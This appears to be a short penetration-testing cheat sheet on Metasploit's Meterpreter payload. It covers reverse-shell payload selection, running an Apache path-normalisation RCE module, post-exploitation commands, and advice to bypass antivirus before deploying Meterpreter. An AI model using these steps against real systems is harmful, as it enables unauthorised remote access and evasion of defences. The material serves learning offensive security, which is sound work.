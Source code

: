 ```shell
 run

 [*] Sending stage (38 bytes) to 192.168.55.110

```

## Meterpreter Payload

Meterpreter and all of the extensions that it loads are executed entirely from **MEMORY** and communication is **ENCRYPTED** by default. Its purpose is to provide complex and advanced features that would otherwise be tedious to implement purely in assembly. The extensions can be provided via dynamic linked libraries using Reflective DDL Injection (RDI) metsrv.dll and meterpreter.{jar,php,py}.

**Warning**: **Detection rates of Meterpreter payloads are quite high** by security technologies such as antivirus solutions. We should **always attempt to obtain an initial foothold with a raw TCP shell** and then deploy a Meterpreter shell as soon as we have disabled or bypassed potential security technologies.

Scenarios

* 🖥️ Multiple channel communications
* 🔒 Encrypted communications channels
* 📁 Transfer files to and from the target system
* 🔀 Pivot—use a hacked machine to attack others in the same network
* 🎛️ Interact with the machine via command execution, shell access, or graphical

```shell
msf6 exploit(multi/http/apache_normalize_path_rce) >
show payloads

search type:payload linux x64 meterpreter

  #   Name                                                   Disclosure Date  Rank    Check  Description
  -   ----                                                   ---------------  ----    -----  -----------
  11  payload/linux/x64/meterpreter_reverse_http             .                normal  No     Linux Meterpreter, Reverse HTTP Inline
  13  payload/linux/x64/meterpreter_reverse_https            .                normal  No     Linux Meterpreter, Reverse HTTPS Inline
  14  payload/linux/x64/meterpreter_reverse_tcp              .                normal  No     Linux Meterpreter, Reverse TCP Inline


set payload linux/x64/meterpreter_reverse_tcp
run

meterpreter > 
help
sysinfo 
getuid

shell
 Channel 1 created.
whoami
^Z

exit
```
